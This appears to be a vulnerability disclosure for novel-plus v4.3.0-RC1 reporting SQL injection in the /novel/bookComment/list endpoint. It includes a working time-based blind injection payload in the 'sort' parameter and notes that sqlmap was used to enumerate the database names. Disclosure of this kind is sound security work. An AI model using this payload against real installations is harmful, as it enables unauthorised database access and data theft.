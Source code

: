 

# SQL injection vulnerability exists in novel-plus v4.3.0-RC1

## The /novel/bookComment/list interface of the novel-admin subsystem in the novel-plus system has SQL injection vulnerability.

#### official website: https://novel.xxyopen.com/index.htm
 
#### github: https://github.com/201206030/novel-plus
 
#### Affected version: v4.3.0-RC1
 
#### releases：https://github.com/201206030/novel-plus/releases/tag/v4.3.0-RC1
 

Payload: 
```
http://127.0.0.1:8088/novel/bookComment/list?limit=10&offset=0&sort=id AND (SELECT 9288 FROM (SELECT(SLEEP(5)))OHwd)&order=desc
```

Use sqlmap for verification, and retrieve all the database names.

使用sqlmap验证，跑出所有库名：

> information_schema<br>
> novel_plus

![image](https://github.com/red0-ha1yu/warehouse/assets/156632069/64a17292-94cb-493e-8bb2-e77895ed6aee)



![image](https://github.com/red0-ha1yu/warehouse/assets/156632069/f9e34958-d8b0-494b-bd2a-3d606ca34af7)


![image](https://github.com/red0-ha1yu/warehouse/assets/156632069/ac6e5abd-3a24-4bd5-959d-7e170ce86ddf)


![image](https://github.com/red0-ha1yu/warehouse/assets/156632069/a16fd9af-1316-429c-8638-4621896f33d2)

